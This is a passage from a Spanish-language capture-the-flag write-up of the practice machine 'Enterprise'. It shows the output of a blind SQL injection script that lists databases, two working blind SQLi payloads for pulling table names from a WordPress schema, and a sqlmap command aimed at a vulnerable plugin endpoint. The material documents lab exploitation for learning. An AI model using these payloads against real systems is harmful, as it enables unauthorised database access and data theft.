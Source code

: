 En la ejecución tenemos:

```bash
❭ python3 ex_db_name.py 
[+] Extrayendo bases de datos: d0Ne
[+] DB [0]: information_schema
[+] DB [1]: joomla
[+] DB [2]: joomladb
[+] DB [3]: mysql
[+] DB [4]: performance_schema
[+] DB [5]: sys
[+] DB [6]: wordpress
[+] DB [7]: wordpressdb
[+] DB [8]
[+] DB [9]

k3Ep br3ak1n6 4anYyyu...
```

Opa, tenemos 8 bases de datos 😬

Veamos primero las relacionadas con **WordPress**

#### SQL injection - Columnas WordPress DB

Acá estuve bastante rato atascado intentando cosas, ya que los payloads que había usado de explotaciones pasadas no me estaban funcionando, ni siquiera el payload "obvio" que debería ir después de encontrar las bases de datos:

```py
# Esta deberia ser la siguiente en explotar:

payload = "1 or IF(Ascii(substring((SELECT table_name FROM information_schema.tables WHERE table_schema='wordpress' LIMIT %d,1),%d,1))=%d,sleep(0.1),0);-- -" % (table_position, word_position, ord(letter))

# O de esta forma (que si la usamos para descubrir las bases de datos funciona):

payload = "1 or (SELECT (CASE WHEN (ORD(MID((SELECT DISTINCT(IFNULL(CAST(table_name AS NCHAR),0x20)) "
payload += "FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='wordpress' LIMIT %d,1),%d,1))=%d) " % (table_position, word_position, ord(letter))
payload += "THEN 1 ELSE (SELECT 2 UNION SELECT 3) END))"
```

Pero nada, siempre obteníamos una respuesta en blanco :(

Tuve que decantarme por ver como hacia **sqlmap** las peticiones y desde ahí usar la sentencia para jugar, al ejecutar la instrucción (de abajo) podemos ver la siguiente sentencia SQL que hace para extraer nombres de tablas:

```bash
❭ sqlmap -u http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1 -D wordpress --tables -v6
```
